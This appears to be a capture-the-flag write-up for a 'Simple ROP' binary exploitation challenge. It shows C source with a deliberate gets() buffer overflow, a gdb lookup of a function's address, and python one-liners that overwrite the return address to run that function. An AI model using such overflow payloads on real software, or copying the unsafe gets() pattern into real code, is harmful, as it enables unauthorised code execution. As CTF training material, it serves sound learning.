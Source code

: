 Challenge: Simple ROP 
----------------------------------------
Category: Binary Exploitation 
----------------------------------------
120 points 
----------------------------------------

```
Description:

Written by r3ndom

On the shell there is a folder /problems/simple-rop.
Hint: Read flag.txt

Files = Source and Binary
```

``` C
simple-rop.c

#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void print_flag();
void what_did_you_say();

int main(int argc, char* argv[])
{
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    what_did_you_say();
    return 0;
}

void print_flag()
{
    system("cat flag.txt");
}

void what_did_you_say()
{
    char buff[64];
    gets(buff);
    printf("You said: %s\n", buff);
}
```

gdb-peda$ p print_flag
$1 = {<text variable, no debug info>} 0x804851a <print_flag>  ===> address of 'print_flag'

BUFFER = 64

TEST IN LOCAL:

python -c 'print "A"*64+"\x1a\x85\x04\x08"' | ./simple-rop ===> NO match !

python -c 'print "A"*68+"\x1a\x85\x04\x08"' | ./simple-rop ===> NO match !

python -c 'print "A"*72+"\x1a\x85\x04\x08"' | ./simple-rop ===> NO match !

python -c 'print "A"*76+"\x1a\x85\x04\x08"' | ./simple-rop ===> MATCH !


<img src="./../Files/ROP.png">
